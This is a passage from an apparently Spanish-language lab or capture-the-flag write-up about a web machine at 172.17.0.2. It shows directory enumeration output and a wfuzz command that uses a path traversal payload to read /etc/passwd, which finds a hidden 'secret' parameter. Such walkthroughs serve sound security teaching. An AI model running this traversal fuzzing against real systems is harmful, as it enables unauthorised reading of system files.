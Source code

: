 ```
===============================================================  
/.php                 (Status: 403) [Size: 275]  
/index.php            (Status: 200) [Size: 2596]  
/.html                (Status: 403) [Size: 275]  
/assets               (Status: 301) [Size: 309] [--> http://172.17.0.2/assets/]  
/.php                 (Status: 403) [Size: 275]  
/.html                (Status: 403) [Size: 275]  
/server-status        (Status: 403) [Size: 275]  
Progress: 1038215 / 1038220 (100.00%)  
===============================================================  
Finished  
===============================================================
```

Al ingresar a la carpeta assets no encontramos nada más que una foto sin relevancia.
![[Pasted image 20250713212656.png]]

Debemos volver al inicio y recordar que existía un error, por lo que podemos suponer que se está llamando algo de forma incorrecta.
Para ello se debe realizar fuzzing para ver si existe algún parámetro. Con el siguiente comando se tiene lo siguiente:
- -c: Habilita el coloreado en la salida de comando
- --hc=404: Se debe ignorar los resultados con código de estado 404
- --hw 169: Se debe ignorar cualquier respuesta que tenga exactamente 169 caracteres de longitud. ste tipo de filtro puede ser útil para descartar respuestas estándar o mensajes de error que tengan una longitud fija (por ejemplo, cuando se está buscando una respuesta específica de un servidor web).
- -t 200: Limita el número de hilos concurrentes a 200. 
- ../../../../../../etc/passwd: Esta ruta intenta acceder a un archivo crítico del sistema, un archivo que contiene información sobre los usuarios del sistema en sistemas Unix. Se hace como prueba de path traversak para verificar si la aplicación permite el acceso no autorizado a archivos del sistema.
```bash
wfuzz -c --hc=404 --hw 169 -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-mediu  
m.txt http://172.17.0.2/index.php?FUZZ=../../../../../../../../../../etc/passwd
```

Una vez terminado, nos muestra que el parámetro es "secret":
```
/usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might  
not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.  
********************************************************  
* Wfuzz 3.1.0 - The Web Fuzzer                         *  
********************************************************  
  
Target: http://172.17.0.2/index.php?FUZZ=../../../../../../../../../../etc/passwd  
Total requests: 207643  
  
=====================================================================  
ID           Response   Lines    Word       Chars       Payload                                                
=====================================================================  
  
000004819:   200        88 L     199 W      3870 Ch     "secret"                                               
  
Total time: 0  
Processed Requests: 207643  
Filtered Requests: 207642  
Requests/sec.: 0
```

